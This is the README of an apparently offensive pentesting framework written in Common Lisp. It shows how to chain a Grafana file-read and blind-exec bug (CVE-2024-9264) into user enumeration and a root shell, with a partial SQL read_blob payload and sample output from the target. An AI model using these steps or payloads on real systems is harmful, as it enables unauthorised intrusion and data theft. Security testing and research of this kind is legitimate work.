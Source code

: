 # Grimoire

<p align="center">
  <img src="https://github.com/user-attachments/assets/127f9116-e1d9-4ccc-9c22-ee17c3afda75"/>
</p>

<p align="center">
  A collection of utilities designed to facilitate reconnaissance, exploitation, persistence, and privilege escalation (only for educational purposes).
</p>

## Installation

To use Grimoire, clone the repository to your local machine.

```bash
$ git clone https://github.com/solanav/grimoire
```

After that, launch your common lisp environment (be it Lem, Emacs or any other IDE) and load Grimoire with:

```lisp
CL-USER> (ql:quickload :grimoire)
```
    
You should then enter the package and start working on the system itself, rather than using it from another package:
    
```lisp
CL-USER> (in-package :grimoire)
```
    
## Concepts

- **Glyphs**: Created using `define-glyph`. They expose some type of operation to the framework such as reading files (:SIGHT) , code executeion (:COMMAND), blind code execution (:SIGHTLESS-COMMAND), file uploads (:MARK), etc.

- **Spells**: Created using `define-spell`. They use the glyphs available to do interesting or useful operations on the objective. For example, the spell `download-all` allows the user to download all files in a given remote path if the glyph :COMMAND is available to Grimoire.
    
- **Transmutations**: Created using `define-transmutation`. They allow Grimoire to derive new glyphs from already implemented ones. For example, if you have both the :SIGHT and :SIGHTLESS-COMMAND glyphs, you will be able to derive the :COMMAND through a transmutation.
    
- **Relics**: Managed through the functions starting with `relic/*`. A basic and global key-value store.

## Usage

Once you have Grimoire loaded, you can start using its utilities. First you should find an entry point to the system you are trying to exploit.

If you find a way of reading files in the remote server for example, you can create a function called `CVE-2024-9264` that reads files from the remote server:

```lisp
(define-glyph :sight CVE-2024-9264 (file)
  (let* ((text (str:replace-all
                "\\x0A" (fmt "~%")
                (send-request-to-vulnerable-server
                 (fmt "SELECT content FROM read_blob(\"~a\")"
                      file))))
         (text-len (1- (length text))))
    (if (plusp text-len)
        (subseq text 0 text-len)
        "")))
```

Grimoire now unlocks a bunch of spells that you can use to progress further, for example:

```lisp
GRIMOIRE> (all-users)
("root" "daemon" "bin" "sys" "sync" "games" "man" "lp" "mail"
 "news" "uucp" "proxy" "www-data" "backup" "list" "irc" "gnats"
 "nobody" "_apt" "grafana")

GRIMOIRE> (system-info)
(("PRETTY_NAME" . "Ubuntu 22.04.4 LTS")
 ("NAME" . "Ubuntu") 
 ("VERSION_ID" . "22.04")
 ("VERSION" . "22.04.4 LTS (Jammy Jellyfish)")
 ("VERSION_CODENAME" . "jammy") 
 ("ID" . "ubuntu")
 ("ID_LIKE" . "debian")
 ("HOME_URL" . "https://www.ubuntu.com/")
 ("SUPPORT_URL" . "https://help.ubuntu.com/")
 ("BUG_REPORT_URL" . "https://bugs.launchpad.net/ubuntu/")
 ("PRIVACY_POLICY_URL" . "https://.../privacy-policy")
 ("UBUNTU_CODENAME" . "jammy"))
```
    
If you now create another glyph to do blind execution of code:

```lisp
(define-glyph :sightless-command CVE-2024-9264 (command)
  (send-request-to-vulnerable-server
   (fmt *exploit* command)))
```
    
So now if we check our current glyphs:
```lisp
GRIMOIRE> (glyph/info)
[+] Glyph "READ" is available through "#<FUNCTION READ/CVE-2024-9264>"
[+] Glyph "BLIND-EXEC" is available through "#<FUNCTION BLIND-EXEC/CVE-2024-9264>"
```
    
Now we should check if we have any interesting transmutations to expand our glyphs.

Running `transmutation/info` will yield:
```lisp
GRIMOIRE> (transmutation/info)
[+] Transmutation "CAT"
Runnable? [NO] (needs :EXEC)
Needed?   [NO] (provides :READ)
[+] Transmutation "LET-THERE-BE-LIGHT"
Runnable? [YES] (needs :READ, :BLIND-EXEC)
Needed?   [YES] (provides :EXEC)
```
    
So lets run the first transmutation in the REPL:
```lisp
GRIMOIRE> (transmutation/run :let-there-be-light)
[+] Added new glyph: :EXEC
```

So lets test it with the `fake-shell` spell:
```lisp
GRIMOIRE> (fake-shell)
[/usr/share/grafana]$ ls
LICENSE
bin
conf
public

[/usr/share/grafana]$ whoami
root

[/usr/share/grafana]$ exit
```
    
You can always run `(info)` to see the state of the system:
```lisp
================== ~* SPELLS ~* ==================

[+] Spell "SYSTEM-INFO"
Runnable? [YES] (needs :SIGHT)

[+] Spell "ALL-USERS"
Runnable? [YES] (needs :SIGHT)

[+] Spell "USERS"
Runnable? [YES] (needs :SIGHT)

[+] Spell "FLAG"
Runnable? [YES] (needs :SIGHT)

============== ~> TRANSMUTATIONS ~> ==============

[+] Transmutation "CAT"
Runnable? [NO] (needs :COMMAND)
Needed?   [NO] (provides :SIGHT)

[+] Transmutation "LET-THERE-BE-LIGHT"
Runnable? [NO] (needs :SIGHT, :BLIND-EXEC)
Needed?   [YES] (provides :COMMAND)

================== <> GLYPHS <> ==================

[+] Glyph "SIGHT"
Provided by "#<FUNCTION SIGHT/CVE-2024-9264>"

[+] Glyph "SIGHTLESS-COMMAND"
Provided by "#<FUNCTION SIGHTLESS-COMMAND/CVE-2024-9264>"

==================================================
```

## Roadmap

In no particular order:
    
- [ ] Add mark (write) utilities to Grimoire.
- [ ] Package Grimoire with Lem so it can be used as a standalone tool.
- [ ] Add an easy way to create POCs and export them so Grimoire can use them.
- [ ] Add a graph like representation of glyphs and how they can be chained together.
- [ ] Add a way to easily share glyphs with other users.
- [ ] Add logging.
- [ ] Add a way to easily create a report of the pentest.
- [ ] Add some testing of new glyphs and spells so we can even make transmutations automatic.
    
- [x] Add a deployable binary for persistance.
- [x] Add command (exec) utilities to Grimoire.
- [x] Add sight (read) utilities to Grimoire.
- [x] Add some kind of database to store relics and other stuff.

